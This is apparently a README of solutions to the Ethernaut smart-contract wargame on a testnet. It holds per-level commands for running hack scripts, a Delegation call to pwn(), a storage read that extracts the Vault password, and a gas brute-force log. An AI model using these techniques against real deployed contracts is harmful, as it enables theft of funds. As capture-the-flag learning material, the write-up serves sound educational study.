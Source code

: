 # Ethernaut

## Coin Flip

Set up the `.env` file with your HTTP_ENDPOINT, PRIVATE_KEY and coin flip instance address.

```dotenv
PRIVATE_KEY="0x0000000000000000000000000000000000000000000000000000000000000000"
HTTP_ENDPOINT="https://eth-rinkeby.alchemyapi.io/v2/xxx"
COIN_FLIP_ADDR="0x0000000000000000000000000000000000000000"
```

run

```bash
npx hardhat run scripts/coin_flip_hack.js --network rinkeby
```

## Delegation

```js
await contract.sendTransaction({data: web3.eth.abi.encodeFunctionSignature("pwn()")})
```

## Force

Set your force contract address in `.env`.

```
FORCE_ADDR="0x0000000000000000000000000000000000000000"
```

run

```bash
npx hardhat run scripts/force_hack.js --network rinkeby
```

references:
- https://ethereum.stackexchange.com/questions/63987/can-a-contract-with-no-payable-function-have-ether/63988#63988
- https://solidity-by-example.org/hacks/self-destruct/ 

## Vault

Get the password with below command run in console.

```
await web3.eth.getStorageAt(instance, 1, console.log)
```

You can use [etherscan](https://rinkeby.etherscan.io) to run the `unlock` function.

## King

Set your king contract address in `.env`.

```
KING_ADDR="0x0000000000000000000000000000000000000000"
```

run

```bash
npx hardhat run scripts/king_hack.js --network rinkeby
```

## Reentrance

Set your reentrance contract address in `.env`.

```
REENTRANCE_ADDR="0x0000000000000000000000000000000000000000"
```

run

```bash
npx hardhat run scripts/reentrance_hack.js --network rinkeby
```

## Elevator

Set your elevator contract address in `.env`.

```
ELEVATOR_ADDR="0x0000000000000000000000000000000000000000"
```

run

```bash
npx hardhat run scripts/elevator_hack.js --network rinkeby
```

## Privacy

```solidity
contract Privacy {
  // slot 0
  bool public locked = true;
  // slot 1
  uint256 public ID = block.timestamp;
  // slot 2
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  // slot 3,4,5
  bytes32[3] private data;
}
```

Set your privacy contract address in `.env`.

```
PRIVACY_ADDR="0x0000000000000000000000000000000000000000"
```

run

```bash
npx hardhat run scripts/privacy_hack.js --network rinkeby
```

- https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html
- https://solidity-by-example.org/hacks/accessing-private-data/
- https://web3js.readthedocs.io/en/v1.2.11/web3-eth.html#eth-sendtransaction

## Gatekeeper One

```
bytes8 key = '0x1122334455667788'
uint16(uint64(key))  // 0x7788
uint32(uint64(key))  // 0x55667788

// it means _gateKey[4:6] == 0
uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))
// it means _gateKey[0:4] != 0x0
uint32(uint64(_gateKey)) != uint64(_gateKey)
// it means _gateKey[6:8] = tx.origin[18:20]
uint32(uint64(_gateKey)) == uint16(tx.origin)
```

add hardhat fork settings

```js
module.exports = {
  networks: {
    hardhat: {
      forking: {
        url: process.env.HTTP_ENDPOINT,
      }
    },
    rinkeby: {
      url: process.env.HTTP_ENDPOINT,
      accounts: [process.env.PRIVATE_KEY],
    }
  },
  solidity: "0.6.12",
};
```

add `.env` settings

```dotenv
GATEKEEPER_ONE_ADDR=0x0000000000000000000000000000000000000000
```

run

```bash
npx hardhat test test/gatekeeper_one.js
```

```
try gasLimit: 900000
......
try gasLimit: 901264
entrant: 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
entrant: 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
    ✓ GatekeeperOne (23173ms)


  1 passing (23s)
```

We can know the tryGas is 901264.

run

```bash
npx hardhat run scripts/gatekeeper_one_hack.js --network rinkeby
```
